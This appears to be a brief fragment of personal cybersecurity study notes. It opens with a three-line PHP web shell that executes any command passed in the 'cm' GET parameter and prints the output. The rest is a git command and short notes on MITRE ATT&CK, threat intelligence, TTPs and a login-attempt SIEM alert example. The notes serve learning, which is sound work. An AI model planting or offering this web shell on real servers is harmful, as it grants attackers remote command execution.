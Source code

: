 ```
<?php
$output = shell_exec($_GET['cm']);
echo "<pre>$output</pre>"
?>
```
- git cat-file (-t|p) $(cat master)
### mitre att&ck 
  - CTI : Cyber Threat Intelligence
  - TTPS : Tactics Techniques and Procedures : 
       - Example of ttps :  
       
                         - Under 5 login attemps --> ban
                         - ttps : 4 login and create new session  
                         - mitigation : 3 Login attemps raises SIEM alert  
                          
